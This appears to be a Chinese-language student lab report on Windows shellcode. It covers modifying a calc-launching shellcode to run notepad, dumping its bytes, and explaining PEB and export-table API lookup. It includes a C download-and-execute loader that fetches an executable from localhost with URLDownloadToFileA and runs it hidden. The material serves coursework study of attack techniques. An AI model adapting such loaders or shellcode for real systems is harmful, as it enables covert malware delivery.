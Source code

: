 # Shellcode

## 实验要求

1. 把上面这个链接中shellcode能够成功运行，
2. 能从汇编源码编译通过并成功dump，
3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理，
4. 修改shellcode功能为运行记事本程序notepad. exe，
5. (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）. 
   
## 实验流程

1. C语言是可以调用汇编程序的，所以直接在VS里运行代码.

![](img/calc.PNG)

2. 修改代码功能为运行记事本程序notepad.exe并dump

![](img/notepad.jpg)

```asm
; push 0x6578652e; exe. : 6578652e
; push 0x636c6163; clac: 636c6163
push 0x00657865;  exe : 00657865
push 0x2e646170; .dap : 2e646170
push 0x65746f6e; eton : 65746f6e
```

使用

```bash
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

可以编译成十六进制字节形式。

![](img/asmdump.jpg)

3. 修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行
```c
// 代码功能：修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
#include <urlmon.h>
#include <Windows.h>

typedef HRESULT (WINAPI * MY_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	// 调用函数不会导入表显示有URLDownloadToFile函数。
	// urlmon.dll默认不加载，所以需要手动先行加载
    // 要获得函数地址，dll必须在内存中，kernel32是默认加载的，提供LoadLibrary函数
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_PROC function_ptr = (MY_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
    // 遍历导出表也可以实现GetProcAddress相同的效果
	// URLDownloadToFile <=> function_ptr
	function_ptr(
		NULL,
		"http://localhost:8000/Project1.exe",
		"a.exe",
		0,
		NULL
	);
	WinExec("a.exe", SW_HIDE);
}
```

在本地开启一个http server

![](img/httpserver.jpg)

Project1.exe功能为打开记事本, 运行是自动打开了记事本, 并且可以发现cpp文件旁边多了一个a.exe文件.

![](img/dll.PNG)

![](img/aexe.jpg)


## 关于Shellcode

shellcode没有CreateProcess，所以只能自己去找。

### 通用shellcode

> 所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个最基础的动态链接库。攻击代码没有经过链接的过程，不知道API的地址。如果想要
> 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法。
>
> 1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。
> 2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。
> 3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针，
>    其中，存放着已经被进程装载的动态链接库的信息。
> 4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指
>    针 InInitializationOrderModuleList。
> 5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化
>    模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。
> 6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的
>    加载基地址。
> 7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。
> 8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。
> 9. 导出表0x1C处的指针指向存储导出函数偏移地址（RVA）的列表->导出表偏移0x20处的指针指向存储导出函数函数名的列表->函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA—>获得RVA后，再加上前面已经得到的动态链接库的加载基址，就获得了所需API此刻在内存中的虚拟地址。
>
> ### fs是什么?TEB是什么?
>
> - fs是一个寄存器,只不过不可见
> - 在NT内核系统中fs寄存器指向TEB结构
> - TEB+0x30处指向PEB结构

### PE的结构

[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)

可执行文件，起始为MZ头，二进制 3CH处记录了文件起始位置的偏移量，PE标志为`50 45 00 00`，创建时间为timestamp格式。


### DLL

WinExec事实上执行[CreateProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/creating-processes)

```cpp
main(int argc, TCHAR* argv[]);
argument_counter argument_vector
表示命令行以空格分隔参数，如果参数内需要空格可以加引号。
```

```c
if (!CreateProcess(NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi)           // Pointer to PROCESS_INFORMATION structure
        )
```

CreateProcess完成了动态链接，并跳到entrypoint运行下一步。即完成了父进程向子进程的调用。

## 实验问题与解决

- notepad.exe压栈问题

最开始组合成了 `空exe` `.dap` `teon`,但这样栈指针需要移位, 问过老师后改成了`exe.` `dape` `ton空`, 成功运行

- 关于解决编码问题
下载执行器的代码一直报错, 发现是字符集的问题.

项目-属性-高级-字符集 将Unicode改成未设置

其他见[笔记](https://github.com/LyuLumos/Reverse-Engineering-and-Software-Security/blob/master/%E9%80%86%E5%90%91%E5%B7%A5%E7%A8%8B%E4%B8%8E%E8%BD%AF%E4%BB%B6%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0.md)
